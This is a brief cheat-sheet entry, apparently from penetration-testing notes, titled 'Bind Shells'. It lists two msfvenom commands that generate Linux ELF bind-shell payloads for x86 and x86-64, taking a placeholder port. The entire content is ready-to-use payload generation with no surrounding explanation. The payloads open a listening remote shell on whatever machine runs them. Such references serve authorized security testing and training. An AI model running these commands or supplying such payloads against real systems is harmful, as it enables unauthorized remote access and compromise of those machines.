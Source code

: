 # Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell_bind_tcp lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell_bind_tcp lport=<PORT> -f elf -o shell-x86-64`